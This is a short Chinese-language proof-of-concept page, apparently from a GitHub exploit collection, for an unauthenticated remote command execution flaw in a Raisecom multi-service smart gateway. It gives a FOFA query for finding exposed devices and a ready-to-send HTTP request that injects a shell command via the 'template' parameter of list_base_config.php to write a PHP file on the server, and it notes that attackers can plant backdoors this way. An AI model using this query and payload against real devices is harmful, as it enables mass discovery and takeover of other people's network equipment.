 # 瑞斯康达-多业务智能网关-RCE

瑞斯康达-多业务智能网关 list_base_config.php 存在远程命令执行漏洞，未经身份验证的远程攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```yaml
body="/images/raisecom/back.gif" && title=="Web user login"
```

## poc

```javascript
GET /vpn/list_base_config.php?type=mod&parts=base_config&template=%60echo+-e+%27%3C%3Fphp+phpinfo%28%29%3Bunlink%28__FILE__%29%3B%3F%3E%27%3E%2Fwww%2Ftmp%2Ftest.php%60 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![效果图](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407271140951.png)

![效果图](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407271141489.png)